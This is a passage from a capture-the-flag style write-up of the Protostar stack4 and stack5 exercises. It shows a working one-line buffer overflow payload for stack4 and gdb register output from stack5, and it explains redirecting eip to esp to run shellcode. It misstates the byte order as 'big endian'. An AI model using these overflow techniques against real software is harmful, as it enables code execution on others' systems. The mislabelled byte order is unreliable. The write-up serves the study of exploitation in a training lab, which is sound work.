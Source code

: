     (gdb) 
    ```

- Final Answer

    `python -c "print('A'*76+'\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4`

### Background for Stack Five

- Given the following input string:

	```
	$ python -c "print('A'*76+'B'*20)" > /tmp/output
	(gdb) set disassembly-flavor intel
	(gdb) r < /tmp/output
	Starting program: /opt/protostar/bin/stack5 < /tmp/output

	Program received signal SIGSEGV, Segmentation fault.
	0x42424242 in ?? ()
	(gdb) info registers
	eax            0xbffffca0	-1073742688
	ecx            0xbffffca0	-1073742688
	edx            0xb7fd9334	-1208118476
	ebx            0xb7fd7ff4	-1208123404
	esp            0xbffffcf0	0xbffffcf0
	ebp            0x41414141	0x41414141
	esi            0x0	0
	edi            0x0	0
	eip            0x42424242	0x42424242
	eflags         0x210246	[ PF ZF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51
	(gdb) x/s $esp
	0xbffffcf0:	 'B' <repeats 16 times>
	(gdb) 
	```

	- We know that the padding length is 76 before we start to overwrite eip with 4 'B's.

	- We also know that the rest of our input string overflows to esp as we observe that esp is pointing to 0xbffffcf0 which contains the rest of our 20 - 4  = 16 'B's

	- Hence, what we can do is that, we can overwrite the 4 'B's that overflowed into the eip register to redirect it to the esp address since and we can put shellcode to be executed once the program has been properly redirected.

	- In the past few examples, we hardcode the register values based on what we have reversed. When we do it this way, we will have to reverse the sequence of bytes due to big endian format of computer architecture. Instead, we can use the struct library to help us

- Writing our first exploit
